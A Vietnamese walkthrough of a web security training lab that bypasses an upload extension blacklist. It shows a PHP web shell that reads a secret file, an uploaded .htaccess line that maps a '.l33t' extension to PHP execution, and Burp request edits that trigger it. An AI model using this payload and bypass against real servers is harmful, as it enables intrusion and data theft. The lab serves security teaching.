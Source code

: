# Lab: Web shell upload via extension blacklist bypass

> Phòng lab này chứa lỗ hổng file upload trong phần upload avatar. Phần mở rộng của file upload nằm trong blacklist nhưng vẫn có thể bypass nó bằng một số cách thức đặc biệt.
> 
> Để giải quyết phòng lab, hãy tải lên một web shell PHP cơ bản và sử dụng nó để lấy nội dung của file mật `/home/carlos/secret`. Gửi nội dung lấy được bằng nút **Submit**
>
> Hãy đăng nhập vào account `wiener:peter` để upload avatar

Thử upload file `exploit.php` với nội dung `<?php echo file_get_contents('/home/carlos/secret') ?>` thì nhận được phản hồi ***Sorry, php files are not allowed Sorry, there was an error uploading your file.***

Trang web đã liệt kê những đuôi file có thể gây nguy hại vào blacklist ví dụ như:  `.php, .pHp, .Php, .phP, .pht, .phtml, .php3, .php4, .php5, .php6, .inc, ...`
=> khai thác tệp cấu hình .htacces. Bắt request up file bằng burp thấy rằng trang web đang giao tiếp với máy chủ Apache, chỉnh sửa thông tin tải lên của file 

 -  Sửa phần  `filename`  thành  `.htaccess`.
-   Sửa `Content-Type`  thành  `text/plain`.
- Thay thế nội dung của tệp (PHP payload của mình) bằng lệnh Apache sau: `AddType application/x-httpd-php .l33t`
Điều này ánh xạ một phần mở rộng tùy ý (`.l33t`) thành kiểu MIME có thể thực thi được  `application/x-httpd-php`. Vì máy chủ sử dụng mô-đun `mod_php` nên nó biết cách xử lý điều này.

>![](2.png)

Forward request và trang web báo đã tải lên file ***.htaccess*** thành công. Quay lại trang upload và sửa đuôi file `.php` thành `.l33t` trong `filename` vì lúc này đuôi file `.l33t` đã được chấp nhận như một file `.php` nhờ file `.htaccess`. 

Chuyển sang tab repeater và dùng lệnh `GET /files/avatars/exploit.l33t`